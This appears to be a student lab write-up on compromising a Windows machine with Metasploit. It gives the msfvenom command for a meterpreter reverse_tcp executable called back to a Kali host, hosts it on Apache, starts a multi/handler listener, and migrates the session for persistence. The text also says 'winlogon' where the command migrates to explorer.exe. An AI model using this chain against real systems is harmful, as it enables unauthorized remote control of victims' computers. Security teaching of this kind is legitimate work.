 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


Find the attackers ip address using ifconfig



![{3424BE28-66DF-47AA-B62D-A4C3D46A49E7}](https://github.com/user-attachments/assets/d39170cb-ae83-4e56-8a8a-2d39c7364170)



Create a malicious executable file fun.exe using msfvenom command


msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe


![{82C3B552-FFA8-44E1-A54C-BC3D3FCE8738}](https://github.com/user-attachments/assets/b87cdb49-50a5-42d3-9381-ad0d1cc985c6)


copy the fun.exe into the apache /var/www/html folder


![{1CCEB4E8-D88B-4EA0-AB56-5497B1B366F9}](https://github.com/user-attachments/assets/2f8dee6b-7453-4ba6-bc32-0cc20c7c3f16)



Start apache server


sudo systemctl apache2 start

![{4B01427D-3EE4-49D5-B9F4-5D008690DFE5}](https://github.com/user-attachments/assets/2cb87178-558b-4759-bbf7-d42185fc3507)


Check the status of apache2


![{56B70F00-52BB-4853-B38F-B9572A436F33}](https://github.com/user-attachments/assets/99d117e3-2a0a-4201-b804-45d20a402459)


Invoke msfconsole:


![{0127CD56-6237-4EF8-916E-84EB20ED1F1C}](https://github.com/user-attachments/assets/04afa8b9-fc04-4ce8-b192-1f6091fa909e)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.



![{1701D860-73ED-40A2-8956-1C111C9715BE}](https://github.com/user-attachments/assets/8762ea2b-2997-4677-80de-0349418dc377)


Starting a command and control Server


use multi/handler


set PAYLOAD windows/meterpreter/reverse_tcp


set LHOST 0.0.0.0


exploit


![{732CC25B-2340-4B26-A4DD-A3A6F53E9B5A}](https://github.com/user-attachments/assets/2488740a-eae6-4cb7-bc98-ced2a35e38f8)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP 


address of your Kali machine:


http://192.168.1.2/fun.exe


The file "fun.exe" downloads. 


![{88B12FA3-F48D-4C84-888B-FC8E24DB9AB0}](https://github.com/user-attachments/assets/df6b2137-4570-4d70-9714-46882d54a171)




![{5C817246-750A-44B2-91E8-187FD4DD6886}](https://github.com/user-attachments/assets/2c5ee8f1-6368-4caf-a3f5-e386a498bf8c)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.




